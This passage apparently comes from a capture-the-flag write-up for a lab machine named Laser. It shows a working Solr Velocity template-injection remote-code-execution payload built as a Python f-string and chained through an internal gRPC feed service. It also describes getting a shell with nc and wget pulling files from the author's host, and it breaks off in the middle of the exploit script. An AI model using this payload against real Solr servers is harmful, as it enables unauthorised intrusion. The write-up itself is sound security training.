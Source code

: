```
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

```

Now I’ve shown that I can have the feedengine send the POST request necessary to do the Solr exploit. Still sending the requests to my box for testing, I’ll create the second request, the GET. I won’t need Gopher for this, as I can just use HTTP to send the full GET:

```

cmd = 'ping -c 1 10.10.14.9'
http2 = f"http://{host}:8983/solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+        %23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27{quote(cmd)}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

```

That Python f-string will allow me to easily change the host and the command, and it does the url-encoding as well.

#### Remote

Up to this point I’ve been sending requests to Laser and having it send two requests back to my host so I could make sure they look right.

Now that I could see the correct requests are being sent, I changed the `host` variable from my IP to `localhost` to the exploit requests would go to Laser and crossed my fingers. It didn’t work. When the first request sends, it hangs for ~60 seconds. Then it prints like it was successful twice.

This took a bunch of troubleshooting to figure out. Eventually I tried breaking it into two scripts, and sending the POST, and while it hangs, sending the GET. It worked! I got a ping. I tend to like to make pretty scripts that work cleanly, but in this case, I left it as two scripts.

### Shell

#### RCE to Shell

Going from RCE (ping) to shell was non-trivial. I could get pings and get `nc` to connect to me (just like `nc 10.10.14.9 443`), but it seemed that characters like `;` and `|` seemed to break execution. I eventually figured out that I could `wget -O` to get a file from my host to Laser, and once I had that, I could get a shell. The two scripts I used to get a shell were:

```

#!/usr/bin/env python3

import base64
import grpc
import pickle
import sys
import feedengine_pb2
import feedengine_pb2_grpc
from urllib.parse import quote

grpc_payload = """{{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "",
    "feed_url": "{url}",
    "items": [
        {{
```